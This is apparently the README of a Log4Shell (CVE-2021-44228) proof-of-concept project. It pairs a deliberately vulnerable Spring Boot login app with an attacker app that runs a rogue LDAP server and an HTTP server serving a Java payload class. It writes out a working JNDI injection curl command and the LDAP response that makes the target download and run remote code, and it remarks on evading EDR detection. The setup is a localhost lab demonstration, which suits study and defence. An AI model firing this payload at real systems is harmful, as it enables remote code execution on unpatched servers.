

## Log4Shell [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) proof of concept

### Requirement

* Java (JDK/JRE) 8 or later version
* curl

### [exploitable](exploitable)

Simple spring boot application that serves a login page with user and password. It logs the user name when POSTed to /. It is not required for the application to log any user provided input. Enabling access logging that uses a vulnerable version of log4j2 is sufficient.

How to run:

```sh
cd exploitable
../mvnw -q spring-boot:run
```

By default it listens on port 8080. If you hit http://localhost:8080/ in browser you should see something like:

In [pom.xml](exploitable/pom.xml) you will notice JVM property:

 `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`

 This is not required in older versions of JDK. The default was changed to false in: JDK 11.0.1, 8u191, 7u201, and 6u211. Even without this property, the application is vulnerable to initial LDAP requests which can exfiltrate sensitive data.



### [hacker](hacker)

Hacker application that serves two purposes:

* Starts a HTTP server on port 9090 to serve vulnerable payloads
* Starts a in-memory LDAP server on port 1389

How to run:

```sh
cd hacker
../mvnw -q spring-boot:run
```

In [pom.xml](hacker/pom.xml) you can change the default payload sent to exploitable applications:

`--class=SayHello` is the default which means it sends `SayHello.class` as payload.

### How to exploit

Send curl request to the exploit application referring the hacker LDAP server in one of the user provided inputs (user name):

```sh
curl -d "user=\${jndi:ldap://127.0.0.1:1389}" http://localhost:8080/
```

In the exploitable application console, you should see something like:


### Under the hood

* Attacker sent one of the user input fields as `${jndi:ldap://127.0.0.1:1389}`
* Vulnerable log4j2 embedded in exploitable application does a LDAP request to `127.0.0.1:1389`
* It gets back the following as response:
  ```ldap
  dn:
  objectClass: javaNamingReference
  javaClassName: SayHello
  javaCodeBase: http://127.0.0.1:9090/
  javaFactory: SayHello
  ```
* Application tries to retrieve exploit payload class from http://127.0.0.1:9090/SayHello.class
* Hacker server returns the binary `SayHello.class` bytes
* Application executes the `getObjectInstance` method in the exploit class

### Note

After the initial LDAP request and potentially the download of the exploit Java class, it is not necessary for the exploit to fork a process, make any additional connection to the Internet. Typically these sorts of exploits can be easily detected by EDR products etc. I suspect new exploit payloads will be natively implemented in Java to evade detection.
